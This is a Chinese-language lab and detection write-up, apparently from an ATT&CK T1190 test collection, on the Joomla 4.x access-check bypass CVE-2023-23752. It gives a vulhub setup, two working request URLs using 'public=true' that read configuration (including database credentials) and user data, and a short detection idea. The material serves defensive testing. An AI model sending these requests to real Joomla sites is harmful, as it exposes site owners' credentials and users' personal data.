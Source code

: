# T1190-CVE-2023-23752-Joomla权限绕过漏洞

## 来自ATT&CK的描述

使用软件，数据或命令来利用面向Internet的计算机系统或程序中的弱点，从而导致意外或无法预期的行为。系统的弱点可能是错误、故障或设计漏洞。这些应用程序通常是网站，但是可以包括数据库（例如SQL），标准服务（例如SMB 或SSH）以及具有Internet可访问开放的任何其他应用程序，例如Web服务器和相关服务。根据所利用的缺陷，这可能包括“利用防御防卫”。

如果应用程序托管在基于云的基础架构上，则对其进行利用可能会导致基础实际应用受到损害。这可以使攻击者获得访问云API或利用弱身份和访问管理策略的路径。

对于网站和数据库，OWASP排名前10位和CWE排名前25位突出了最常见的基于Web的漏洞。

## 测试案例

Joomla是一个开源免费的内容管理系统（CMS），基于PHP开发。

在其4.0.0版本到4.2.7版本中，存在一处属性覆盖漏洞，导致攻击者可以通过恶意请求绕过权限检查，访问任意Rest API。

参考链接：

- <https://developer.joomla.org/security-centre/894-20230201-core-improper-access-check-in-webservice-endpoints.html>
- <https://xz.aliyun.com/t/12175>
- <https://vulncheck.com/blog/joomla-for-rce>

## 检测日志

HTTP.log

## 测试复现

### 漏洞环境

漏洞环境参考vulhub进行部署模拟

执行如下命令启动一个Joomla 4.2.7：

```
docker-compose up -d
```

服务启动后，访问`http://your-ip:8080`即可查看到Joomla页面。

### 漏洞复现

这个漏洞是由于错误的属性覆盖导致的，攻击者可以通过在访问Rest API时传入参数`public=true`来绕过权限校验。

比如，访问下面这个链接即可读取所有配置项，包括数据库连接用户名和密码：

```
http://your-ip:8080/api/index.php/v1/config/application?public=true
```

![](1.png)

如果不添加`public=true`，则访问会被拒绝。

访问下面这个链接即可读取所有用户信息，包含邮箱等：

```
http://your-ip:8080/api/index.php/v1/users?public=true
```

![](2.png)

## 测试留痕

![](3.png)

![](4.png)

流量包见同目录下pcap文件。

## 检测规则/思路

对请求路径及返回内容进行重点关注，研判分析时要根据url路径内容，结合返回信息+状态码进行研判。

## 参考推荐

MITRE-ATT&CK-T1190

<https://attack.mitre.org/techniques/T1190/>

Joomla权限绕过漏洞（CVE-2023-23752）

<https://github.com/vulhub/vulhub/blob/6e9b1c1acd60529384a5751ea9de4dae595259c6/joomla/CVE-2023-23752/README.zh-cn.md?plain=1>
